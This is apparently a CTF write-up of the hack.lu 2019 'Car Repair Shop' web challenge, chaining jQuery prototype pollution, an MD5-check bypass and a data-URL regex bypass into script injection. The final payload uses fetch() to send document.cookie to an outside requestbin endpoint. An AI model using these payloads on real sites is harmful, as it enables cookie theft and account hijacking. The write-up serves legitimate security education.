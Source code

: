 # hack.lu 2019 - Car Repair Shop

- Category: web
- Author(s): kunte_
- Difficulty: medium
- Solves: 10 / 972

Challenge Description:

> "Your Car broke down?! Come to our shop, we repair all cars! Even very old ones."
>
> [Enter the Shop](https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/)

## Analysis

After accessing the URL of the challenge description the following page showed up:

![car repair shop](/posts/2019-10-24-hack.lu-2019-car-repair-shop/car-repair-shop.png)

Here we can see several buttons which will execute certain functions when clicked. Below there is a message box which gets updated after some function was executed.
At the bottom there was another button named `Get your cookie!` which lead to a [subpage](https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/submit/) where a URL could be sumitted.
The submitted URL would then be visited by an automated browser.

So the big picture looked like we had to craft a URL containing a payload and submit it. When it gets visited we have to exfiltrate the flag somehow. The button name suggested that the flag was in the cookie.

The page was small and contained (among others) the following interesting files:

- index.html
- car.class.js
- util.js
- jquery.min.js
- jquery.md5.js

`util.js` was responsible for setting up the page like event handlers and then started to execute some code:

```js
const urlParams = new URLSearchParams(window.location.search)
const h = location.hash.slice(1)
const bugatti = new Car('Bugatti', 'T35', 'green', 'assets/images/bugatti.png')
const porsche = new Car('Porsche', '911', 'yellow', 'assets/images/porsche.png')

[...]

    if(h.includes('Bugatti'))
        autoStart(bugatti)
    if(h.includes('Porsche'))
        autoStart(porsche)
```

The `autoStart`-function will execute the `repair`, `ignition` and `powerOn` methods of the car passed as argument. The respective code can be found in `car.class.js`. The `repair`-function accesses the URL and parses a JSON-object of the query parameter with the same name as the function:

```js
    repair() {
        if(urlParams.has('repair')) {
            $.extend(true, this, JSON.parse(urlParams.get('repair')))
        }
    }
```

This code will merge the attributes and values provided in the JSON object with the `Car` object. This is dangerous and opens a prototype pollution vulnerability as described [here](https://snyk.io/blog/after-three-years-of-silence-a-new-jquery-prototype-pollution-vulnerability-emerges-once-again/). We can overwrite the `__proto__` attribute of the `Car` and introduce new attributes.

Next the `ignition`-function is called:

```js
    ignition() {
        if (this.key == "") {
            infobox(`Looks like the key got lost. No wonder the car is not starting ...`)
        }
        if (this.key == "🔑") {
            infobox(`The car started!`)
            this.start()
        }
    }
```

We need to set the key property of the `Car`-object to get it started. Otherwise the last of the three functions `powerOn` will not get us to the next car:

```js
    powerOn() {
        if (this.isStarted()) {
            infobox(`Well Done!`)
            nextCar()

        } else {
            $('.chargeup')[0].play()
        }
    }
```

```js
const cars = [bugatti, porsche]

[...]

const nextCar = () => {
    cars.push(cars.shift())
    $(".image").attr('src', cars[0].pic);
}
```

To repair the `bugatti` we can just specify the `key` with the value of the emoji in the URL and the `repair`-function will do its job:

```text
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={%22key%22:%22%F0%9F%94%91%22}
```

This will bring us to the `porsche`. Here there were some customizations made to the `repair` and ignition functions:

```js
porsche.repair = () => {
    if(!bugatti.isStarted()){
        infobox(`Not so fast. Repair the other car first!`)
    }
    else if($.md5(porsche) == '9cdfb439c7876e703e307864c9167a15'){
        if(urlParams.has('help')) {
            repairWithHelper(urlParams.get('help'))
        }
    }
    else{
        infobox(`Repairing this is not that easy.`)
    }
}
porsche.ignition = () => {
    infobox(`Hmm ... WTF!`)
}
```

Here the `ignition`-function does not matter as it simply outputs some text. The `repair`-function however has some special requirements:

1. The `bugatti` needs to be started before.
2. The `md5` of the `porsche`-object needs to be `9cdfb439c7876e703e307864c9167a15`

(1) is already achieved with the correct `key` in the URL and should be satisfied.
(2) needs to be done. The MD5 hash is actually the hash of the string `lol` (see your favorite hash lookup table, e.g. crackstation.net).
So how is the hash computed of an object? Looking at the code of `jquery.md5.js` it shows that the hash will be computed of the string representation of the object which is obtained through the `toString` method.
To change the string representation of an object we would need to overwrite this method, but this is not possible in this case.
We cannot create or change methods with the jQuery extend of the `repair`-function, only properties, because of JSON.

To solve this problem we can use an interesting property of JavaScript arrays and the prototype pollution mentioned before.
When an array is converted to a string in JavaScript it will become a string representation of its elements joined by `,`.
So for example `["lol"]` becomes `"lol"`.
Now combined with prototype pollution this can be easily verified with:

```js
$.md5({__proto__:["lol"]}) == '9cdfb439c7876e703e307864c9167a15'
```

However in the payload we cannot set the prototype directly to our array, otherwise we lose the functionality provided by the `Car` class.
We can circumvent this by not directly setting the prototype to the array but to an object with the prototype set to the array: `{"__proto__": {"__proto__": ["lol"]}}`  
*This indirection through another object was discovered by team member "Smashing" while I was taking the bus from the conference back to the hotel. So this was a pleasant surprise and spared me some time ;)*

The new payload looks like the following now:

```text
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={%22key%22:%22%F0%9F%94%91%22,%22__proto__%22:%20{%22__proto__%22:%20[%22lol%22]}}#BugattiPorsche
```

With this we can bypass the MD5 check and get to the `repairWithHelper` function used in the `porsche`-`repair`-function:

```js
const repairWithHelper = (src) => {
    /* who needs csp anyways !? */
    urlRegx = /^\w{4,5}:\/\/car-repair-shop\.fluxfingersforfuture\.fluxfingers\.net\/[\w\d]+\/.+\.js$/;
    if (urlRegx.test(src)) {
        let s = document.createElement('script')
        s.src = src
        $('head').append(s)
    }
}
```

Here we can see that it creates a script and sets its `src`-attribute to the URL provided as argument of the function.
This argument can be controlled with the `help` query parameter.
The problem we face is the regex which seems to be very restrictive.
Only the last part of the URL (the filename) allows arbitrary characters.
After some testing I discovered that a data-URL would match the regex `data:[<MIME-Type>][;charset=<Charset>][;base64],<Data>`.
There was only the uncertainty if it would load with some garbage content type as the required `*.fluxfingers.net` hostname would be placed there.
To my surprise this worked and I was able to pop an `alert(1)` with `help` set to:

```text
help=data://car-repair-shop.fluxfingersforfuture.fluxfingers.net/text/javascript,alert(1)//.js
```

The updated payload URL:

```text
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={%22key%22:%22%F0%9F%94%91%22,%22__proto__%22:%20{%22__proto__%22:%20[%22lol%22],%20%22dotAll%22:true}}&help=data://car-repair-shop.fluxfingersforfuture.fluxfingers.net/text/javascript,alert(1)//.js#BugattiPorsche
```

So now we have the full exploit chain together. The only missing part is reading the flag.

## Solution

The final payload, which gave us the flag, looked like the following:

```text
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={%22key%22:%22%F0%9F%94%91%22,%22__proto__%22:%20{%22__proto__%22:%20[%22lol%22],%20%22dotAll%22:true}}&help=data://car-repair-shop.fluxfingersforfuture.fluxfingers.net/text/javascript,fetch(%22https://en7f8h9cynsmk.x.pipedream.net/%22%2Bdocument.cookie)//.js#BugattiPorsche
```

It extracts the `cookie` and sends it as part of the URL with `fetch` to an HTTP-endpoint controlled by us. RequestBin.com and similar sites are very useful for that. There we can inspect the requests and see what the visitor of our payload URL will send.

![flag exfiltrated to requestbin](/posts/2019-10-24-hack.lu-2019-car-repair-shop/flag-requestbin.png)

Finally we got the correct flag: `flag{brumm_brumm_brumm_brumm_brumm_brumm_brumm}`

## Notes

I solved this challenge 20 minutes before the end of the CTF.
This changed our ranking from 4th of the local teams to 3rd and we won 500€ which was pretty cool.
Of course this was only possible with the awesome contributions and solved challenges of the other players of the [W0Y-CTF-team](https://w0y.at).

Hack.lu 2019 was an awesome conference with a very nice CTF with many (30) challenges of different categories.
Thanks to [Fluxfingers](https://fluxfingers.net/) for organizing it.
